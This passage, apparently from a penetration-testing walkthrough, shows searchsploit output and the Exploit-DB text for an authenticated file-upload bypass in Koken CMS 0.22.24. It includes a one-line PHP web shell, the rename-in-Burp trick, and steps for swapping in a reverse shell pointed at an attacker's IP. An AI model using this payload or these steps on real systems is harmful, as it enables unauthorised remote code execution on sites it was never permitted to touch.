 Shellcodes: No Results

Papers: No Results

To get more information about the exploit -p flag is used with searchsploit.
This provides URL for the exploit along with the Path of the local copy.
Searchsploit -p also copies the local path to the clip board, which is very
convenient when using cat to display the contents.

searchsploit -p 48706

Exploit: Koken CMS 0.22.24 - Arbitrary File Upload (Authenticated)

URL: https://www.exploit-db.com/exploits/48706

Path: /usr/share/exploitdb/exploits/php/webapps/48706.txt

File Type: ASCII text, with CRLF line terminators

Copied EDB-ID \#48706's path to the clipboard

cat /usr/share/exploitdb/exploits/php/webapps/48706.txt

\# Exploit Title: Koken CMS 0.22.24 - Arbitrary File Upload (Authenticated)

\# Date: 2020-07-15

\# Exploit Author: v1n1v131r4

\# Vendor Homepage: http://koken.me/

\# Software Link: https://www.softaculous.com/apps/cms/Koken

\# Version: 0.22.24

\# Tested on: Linux

\# PoC:
https://github.com/V1n1v131r4/Bypass-File-Upload-on-Koken-CMS/blob/master/README.md

The Koken CMS upload restrictions are based on a list of allowed file extensions
(withelist), which facilitates bypass through the handling of the HTTP request
via Burp.

Steps to exploit:

1. Create a malicious PHP file with this content:

\<?php system(\$_GET['cmd']);?\>

2. Save as "image.php.jpg"

3. Authenticated, go to Koken CMS Dashboard, upload your file on "Import
Content" button (Library panel) and send the HTTP request to Burp.

4. On Burp, rename your file to "image.php"

#### RCE via Arbitrary File Upload

Following the exploit steps, instead of creating a malicious php file an already
prepared reverse shell can be used, which is found at
/usr/share/webshells/php/php-reverse-shell.php on Kali Linux. Three changes that
need to be done are changing the file extension to .jpg and the IP address and
port number inside the file to the one of your attacker machine’s IP address and
listening port.
